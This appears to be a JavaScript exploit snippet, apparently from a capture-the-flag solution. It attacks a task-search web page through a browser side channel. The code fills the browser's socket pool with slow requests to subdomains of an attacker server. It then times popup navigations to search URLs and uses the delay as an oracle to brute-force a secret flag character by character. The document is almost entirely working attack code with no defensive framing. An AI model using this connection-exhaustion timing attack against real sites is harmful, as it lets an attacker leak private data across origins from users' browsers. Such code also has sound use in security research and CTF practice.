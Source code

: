 ``` html
const fetch_sleep_long = (i) => {
    // 40s sleep
    return fetch(`https://${i}.${MYSERVER}/40sleep`, {
        mode: 'no-cors'
    });
}

const fetch_sleep_short = (i) => {
    // 0.25s sleep
    return fetch(`https://${i}.${MYSERVER}/ssleep`, {
        mode: 'no-cors'
    });
}

const block_socket = async (i) => {
    fetch_sleep_long(i);
    // needed?
    await sleep(0);
}

const exhaust_sockets = async() => {
    let i = 0
    for (; i < SOCKETLIMIT; i++) {
        block_socket(i);
    }
    console.log(`Used ${i} connections`);
}

const timeit = async (url, popup) => {
    return new Promise(async (r) => {

        popup.location = url;
        // needed?
        await sleep(50)

        let val = await time_fetch()
        r(val)
    });
}

// const alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ-}!"#$%&\'()*+,-./:;<=>?@[\\]^`|~{'.split('');
const alphabet = 'abcdefghijklmnopqrstuvwxyz}_'.split('');
// const alphabet = 'abcdef}'.split('');

const oracle = async (search) => {
    let url = `https://carrot-${INSTANCE}.mc.ax/tasks?search=${search}`
    let t = await timeit(url, WINBG)

    LOG = `${search}:${t}`
    console.log(`${search}:${t}`)

    return t > TIMELIMIT 
}

const brute = async (flag) => {
    for (const char of alphabet) {
        if (await oracle(flag + char)) {
            return char;
        }
    }
    return false;
}
```